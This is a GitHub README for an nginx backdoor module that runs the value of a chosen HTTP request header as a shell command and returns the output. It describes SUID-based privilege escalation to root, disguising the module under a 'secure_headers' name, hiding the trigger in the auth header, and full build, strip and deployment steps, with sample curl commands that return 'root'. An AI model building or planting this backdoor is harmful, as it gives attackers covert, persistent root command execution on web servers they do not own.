 # Info
##
#
https://github.com/vgo0/nginx-backdoor
#
##

Backdoor command execution as the nginx worker process (www-data)

This inserts itself as a handler during the `NGX_HTTP_ACCESS_PHASE` and looks for a specific header (`backdoor` in source)

When that header is found it executes the value of the header as a command and returns the output
```
curl -H "vgo0: whoami" localhost:8888
root
```

Using a header nginx already references would be more performant instead of having to seek the custom one.

https://github.com/nginx/nginx/blob/master/src/http/ngx_http_request.h

A good spot might be to stack this in the auth header

During module init there is a phase where commands can usually be run as root depending on how nginx is getting started

This can be used to provide escalation persistance (SUID, Privileges, etc)

See `ngx_http_secure_headers_init` for very basic example

A poor mans escalation within command exec is provided via chmod u+s of the shell specified. This then gets passed to popen. On normal nginx teardown this will be reverted (chmod u-s)

It is roughly:

`popen(escalate + " -p -c " + header_in + " 2>&1")`

`popen('/bin/sh -p -c whoami 2>&1')`

popen is ultimately sh -c so it becomes something like:

`/bin/sh -c '/bin/sh -p -c whoami 2>&1'`

There are likely stealthier methods available

Setting `escalate` to `""` avoids this

# Sample
A sample dynamic and static version are provided in the docker folders compiled against `1.21.6`
```
cd docker-dynamic
docker-compose up -d

curl -H "vgo: whoami" localhost:8888
Normal output

curl -H "vgo0: whoami" localhost:8888
root
```

# Usage

This is version specific

# Download
https://nginx.org/en/download.html

Extract

Switch to directory

# Dynamic
## Configure - Dynamic
`./configure --add-dynamic-module=/opt/nginx-backdoor --with-compat`

## Make - Dynamic
`make modules`

## Get .so
```
strip -s objs/ngx_http_secure_headers_module.so
cp objs/ngx_http_secure_headers_module.so ...
```

## Enable - Dynamic
Place .so on disk

Add to nginx config somehow (for dynamic):

load_module path/to/ngx_http_secure_headers_module.so;

service nginx restart

# Static
## Configure - Static
Basic that works can be tested in docker (paths etc should match if replacing):

`./configure --sbin-path=/usr/sbin/nginx --conf-path=/etc/nginx/nginx.conf --error-log-path=/var/log/nginx/error.log --http-log-path=/var/log/nginx/access.log --prefix=/usr/lib/nginx --add-module=/opt/nginx-backdoor`

## Make - Static
`make`

## Get resulting 
```
strip -s objs/nginx
cp objs/nginx
```
